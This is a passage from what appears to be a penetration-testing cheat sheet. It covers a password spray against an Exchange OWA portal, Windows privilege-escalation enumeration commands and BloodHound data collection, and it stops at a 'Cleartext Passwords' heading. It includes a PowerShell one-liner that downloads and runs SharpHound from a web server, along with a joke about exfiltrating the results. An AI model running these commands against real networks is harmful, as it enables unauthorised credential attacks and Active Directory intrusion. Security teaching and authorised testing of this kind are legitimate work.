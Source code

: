 ```
Invoke-PasswordSprayOWA -ExchHostname m0chanAD.local -userlist harvestedUsers.txt -password Summer2019

[*] Now spraying the OWA portal at https://m0chanAD.local/owa/

[*] SUCCESS! User:m0chan:Summer2019

Lmao, you really think I'd use the pass Summer2019?
```





## [](#header-2)Privilege Escalation

Reference: https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

Run this script: https://github.com/M4ximuss/Powerless/blob/master/Powerless.bat

Basics

```
systeminfo
wmic qfe
net users
hostname
whoami
net localgroups
echo %logonserver%
netsh firewall show state
netsh firewall show config
netstat -an
type C:\Windows\system32\drivers\etc\hosts
```



If It's AD Get Bloodhound Imported...

```
SharpHound.ps1
SharpHound.exe -> https://github.com/BloodHoundAD/SharpHound

IEX(System.Net.WebClient.DownloadString('http://webserver:4444/SharpHound.ps1'))

Invoke-CollectionMethod All

Import .zip to Bloodhound

If you can't exfil the .zip... Find a way ;) I joke, I joke. Output as plain json and copy over manually. It's a big big pain but it works.
```



Cleartext Passwords
